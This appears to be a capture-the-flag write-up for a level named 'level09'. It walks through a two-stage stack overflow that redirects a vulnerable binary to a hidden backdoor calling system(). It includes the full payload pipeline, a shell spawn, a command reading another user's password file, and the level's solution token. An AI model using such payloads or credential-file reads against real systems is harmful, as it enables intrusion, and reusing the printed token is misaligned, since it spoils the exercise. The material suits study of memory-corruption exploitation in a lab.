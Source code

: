 # level09

1. Overview

* Two-step **stack overflow** leading to a clean ret2win into a hidden backdoor.
* `set_username()` can overwrite fields **past** a 140-byte buffer, including the message length used by `set_msg()`.
* `set_msg()` then copies attacker-controlled bytes into the same buffer using that (now attacker-chosen) length, letting us overwrite the **return address**.
* Target function to jump to: `secret_backdoor()`, which runs `system()` on a line read from stdin.

```c
void secret_backdoor(void) {
    char buf[128];
    fgets(buf, 0x80, stdin);
    system(buf);
}
```

2. What the code does (short)

* `handle_msg()` allocates a 140-byte buffer on the stack plus several locals. It sets `msg_len = 0x8c` (140).
* `set_username(buf)` reads up to 0x80 bytes, then copies **up to 0x29 (41) bytes** into **`buf + 0x8c`**. That writes **beyond** the 140-byte buffer into the adjacent locals.
* `set_msg(buf)` reads a message and does `strncpy(buf, msg, *(int *)(buf + 0xb4))`. The length at `buf + 0xb4` is exactly the `msg_len` field we can modify via `set_username()`.
* Overflow with `set_msg()` to smash the return address and point it at `secret_backdoor`.

3. Key offsets (typical x86-64 build)

* `buf`           at offset 0
* `msg_len`       at **offset 180** (`buf + 0xb4`) ← we want to set this high (e.g., 500)
* saved return    around **offset ~200** (varies slightly by build; 200 works in the reference)
* Distance from `buf + 0x8c` (where `set_username` writes) to `msg_len` is **40 bytes** → within the 41-byte copy budget

4. Find `secret_backdoor` address

```gdb
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = (void (*)(void)) 0x55555555488c   # example
```

Use your own address if it differs.

5. Exploit plan

* **Stage 1 (username):** set `msg_len` to a large value (e.g., `500`). We do this by writing 40 padding bytes, then the little-endian integer `0x000001f4` at `buf+0xb4`.
* **Stage 2 (message):** send `B * <offset_to_RET>` followed by the **little-endian** 8-byte address of `secret_backdoor`.
* Keep stdin open so `secret_backdoor()` can read and execute your command.

6. Commands (single pipeline)

```bash
# Example with secret_backdoor = 0x000055555555488c
(
  python -c "print('A'*40 + '\xf4\x01\x00\x00')";              # Stage 1: msg_len = 500
  python -c "print('\x90'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')";  # Stage 2: smash RET
  cat                                                     # keep stdin open for backdoor
) | ./level09
```

Then type a command for the backdoor, e.g.:

```bash
/bin/sh
# or directly:
cat /home/users/end/.pass
```

7. Why this works

* `set_username` lets you write **41 bytes** starting at `buf + 0x8c`. Writing 40 bytes of padding plus a 4‑byte integer lands exactly on `msg_len` at `buf + 0xb4`.
* `set_msg` trusts `msg_len` and overflows the 140‑byte buffer with up to `msg_len` bytes, smashing the saved return.
* On function return, control transfers to `secret_backdoor`, which immediately calls `system()` on input you provide.

8. Token

Token found `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
